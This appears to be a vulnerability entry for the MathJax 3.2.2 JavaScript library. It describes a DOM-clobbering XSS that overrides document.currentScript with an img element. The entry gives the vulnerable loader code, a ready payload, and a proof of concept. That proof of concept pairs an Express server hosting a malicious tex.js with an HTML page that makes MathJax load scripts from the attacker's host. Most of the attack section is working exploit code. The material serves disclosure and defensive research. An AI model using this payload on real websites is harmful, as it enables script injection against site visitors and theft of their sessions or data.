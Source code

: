 ## MathJax

### Meta

+ Library: MathJax3
+ Stars: 10.1K
+ Version: v3.2.2
+ Fingerprint: `MathJax.version == "3.2.2"`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: None


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@3.2.2/es5/tex-mml-chtml.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mathjax/3.2.2/es5/tex-mml-chtml.js`

### Vulnerable Code Snippet

```javascript
t.getRoot = function() {
    var t = "//../../es5";
    if ("undefined" != typeof document) {
        var e = document.currentScript || document.getElementById("MathJax-script");
        e && (t = e.src.replace(/\/[^\/]*$/, ""))
    }
    return t
}
```
```javascript
prefix: function(t) {
    for (var r; (r = t.name.match(/^\[([^\]]*)\]/)) && e.CONFIG.paths.hasOwnProperty(r[1]); )
        t.name = e.CONFIG.paths[r[1]] + t.name.substr(r[0].length);
    return !0
}
```

## PoC

Note that some MathJax instances may be configured differently. If the image loads before MathJax is started, then `MathJax.config.loader.paths.mathjax` should be clobbered. Then, check `MathJax.config.loader.paths` or `MathJax.config.loader.source` to see what dependencies can be loaded in.

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

app.get('/input/tex/extensions/tex.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'tex.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```

### PoC #1
```html
<img name="currentScript" src="https://xxx.xxx.xxx:3000"></img>

<script id="MathJax-script" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>

$$\require{tex}$$
```
